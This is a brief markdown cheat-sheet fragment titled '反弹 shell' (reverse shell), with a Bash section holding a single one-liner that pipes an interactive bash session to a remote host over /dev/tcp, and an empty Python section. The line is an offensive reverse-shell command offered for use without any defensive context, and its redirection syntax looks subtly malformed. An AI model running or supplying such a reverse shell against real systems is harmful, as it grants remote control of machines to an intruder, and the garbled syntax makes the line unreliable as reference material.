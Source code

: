 # 反弹 shell

## Bash

```text
bash -c 'bash -i &>/dev/tcp/8.8.8.8/8888 0>1'
```

## Python

```text

```

